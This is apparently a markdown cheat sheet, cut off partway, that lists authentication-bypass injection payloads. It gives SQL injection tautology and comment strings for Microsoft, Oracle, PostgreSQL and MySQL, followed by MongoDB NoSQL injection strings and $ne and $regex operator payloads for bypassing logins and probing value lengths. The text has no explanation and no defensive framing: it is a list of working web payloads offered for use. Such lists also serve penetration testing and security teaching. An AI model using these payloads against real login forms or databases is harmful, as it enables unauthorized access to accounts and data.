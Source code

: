 <br />

### Microsoft, Oracle, PostgreSQL

```txt
'--
' or 1=1--
' or '1'='1'--

}" or 1=1--
```

<br />

### MySQL

```txt
'-- -
'#

' or 1=1#
' or 1=1-- -

' or '1'='1'-- -
' or '1'='1'#

}" or 1=1-- -
```

<br />

## NoSQL Injection

### Mongo

```txt
' || 1==1//
' || 1==1%00
' || '1==1
' || '1'=='1
```

- **Operators**

    ```sh
    # $ne: Not equal
    username[$ne]=xyz&password[$ne]=xyz

    # $regex: Regular expressions
    username[$regex]=.*&password[$regex]=.*
    username[$regex]=^xyz&password[$regex]=^xyz
    username[$regex]=^a.*$&password[$ne]=xyz
    username[$regex]=.{6}&password[$ne]=xyz
    username[$regex]=^.{1}&password[$regex]=^.{1} # Length of values
